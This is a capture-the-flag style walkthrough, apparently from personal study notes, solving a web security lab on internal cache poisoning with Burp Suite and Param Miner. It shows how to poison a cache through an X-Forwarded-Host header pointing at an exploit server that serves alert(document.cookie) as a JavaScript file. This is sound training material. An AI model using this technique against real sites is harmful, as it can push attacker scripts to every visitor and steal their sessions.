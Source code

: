 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605192930.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605193103.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605193234.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605193328.png)

### Internal cache poisoning
```bash

# This lab is vulnerable to web cache poisoning. It uses multiple layers of caching. A user regularly visits this site's home page using Chrome.

# To solve the lab, poison the internal cache so that the home page executes alert(document.cookie) in the victim's browser. 

Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Send to repeater
Right-click the request -> Extensions -> Param Miner -> Guess params -> Guess headers -> Check "Add 'fcbz' cachebuster"
Go to: Target -> Issues

Found persistent parameter: 'x-forwarded-host'. Disregard the request and look for zwrtxqvav5xuq82tt2 in the response

Go to: Repeater
Right-click the request -> Extensions -> Param Miner -> Guess params -> Guess headers -> Un-check "Add 'fcbz' cachebuster"

Go to: "Go to exploit server"

Copy the URL for the exploit server
Go to: Repeater
Add:

X-Forwarded-Host: exploit-0a20000204d69dfdc008160c019c00f5.web-security-academy.net

Send the request 2-3 times
Go to response and paste the exploit server link in the search box
Notice that following the exploit server link there are the js files appended to it
Copy /js/geolocate.js
Go to: "Go to exploit server"
File:

/js/geolocate.js

Body:

alert(document.cookie)

Store
Go to: Repeater
Send (Numerous times)

```
